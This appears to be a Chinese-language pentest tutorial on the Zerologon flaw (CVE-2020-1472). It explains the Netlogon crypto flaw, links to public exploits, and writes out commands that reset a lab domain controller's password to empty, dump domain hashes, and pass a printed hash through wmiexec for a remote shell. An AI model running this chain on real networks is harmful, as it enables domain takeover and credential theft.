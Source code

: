 ## **域控提权-CVE-2020-1472**
CVE-2020-1472是继MS17010之后好用的NetLogon特权域控提权漏洞，
影响Windows Server 2008R2至Windows Server 2019的多个版本系统，

原理：
基于 Netlogon 远程协议（MS-NRPC）中的一个缺陷，该协议用于域内认证和密码管理等任务。
该漏洞的成因是微软在 Netlogon 协议中不正确地使用了加密算法。在进行 AES 加密运算过程中，错误地使用了 AES-CFB8 模式，并将初始化向量（IV）设置为全零。这导致攻击者可以控制明文和IV，从而有较高概率使得产生的密文为全零，重置域控为空密码。

防御：打补丁

条件：
该漏洞不要求当前计算机在域内,也不要求当前计算机操作系统为Windows.
只要攻击者能访问到目标域控IP且知道域控计算机名即可利用该漏洞.

POC：https://github.com/SecuraBV/CVE-2020-1472 
EXP：https://github.com/dirkjanm/CVE-2020-1472 
Impacket：https://github.com/fortra/impacket

检测利用：
```
检测，返回success则有
python3 zerologon_tester.py OWA2010CN-GOD 192.168.3.21

重置域控为空密码
python3 cve-2020-1472-exploit.py OWA2010CN-GOD 192.168.3.21

导出域控hash（secretsdump.py来源impacket）
python3 secretsdump.py god.org/OWA2010CN-GOD\$@192.168.3.21 -no-pass
```
wmi进行hash传递，反弹交互式cmd
```
python3 wmiexec.py god/administrator@192.168.3.21 -hashes aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7
```


